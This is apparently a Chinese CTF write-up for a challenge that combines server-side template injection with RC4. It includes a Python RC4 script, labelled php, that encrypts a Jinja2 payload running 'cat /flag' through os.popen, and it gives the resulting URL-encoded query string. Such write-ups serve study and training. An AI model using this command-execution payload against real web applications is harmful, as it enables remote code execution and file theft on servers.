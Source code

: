 # 知识点
SSTI<br />RC4加密
# 思路
找到/secret页面<br />![image.png](./images/20231017_2355034492.png)<br />进行传参，发现值到达一定长度会报错<br />![image.png](./images/20231017_2355044524.png)<br />查看报错信息，可以发现是进行了应该rc4解密，密钥也已知<br />![image.png](./images/20231017_2355052379.png)<br />在网上找到RC4加密脚本
```php
import base64
from urllib.parse import quote
def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    # print("res用于加密字符串，加密后是：%res" %res)
    cipher = "".join(res)
    print("加密后的字符串是：%s" %quote(cipher))
    #print("加密后的输出(经过编码):")
    #print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
rc4_main("HereIsTreasure","{{lipsum.__globals__['os'].popen('cat /flag').read()}}")
```
```php
?secret=.%14U%5C%C2%BA%14%1Ec%25%C2%A2%C3%A7%14%C2%B2%C2%BD%C3%B4%C2%A98%C2%80k%0B%C2%8C%15%C3%AFaM%C2%ACv%C2%99%5D%C3%9C7%C3%A9e%C3%8CN%C3%97%1C%C2%B1g%C3%A2w%C3%9B%C2%8A%C2%A5%24%40%C2%AF%1F%C2%A4%C2%B9%0E%25%7F%C3%B6
```
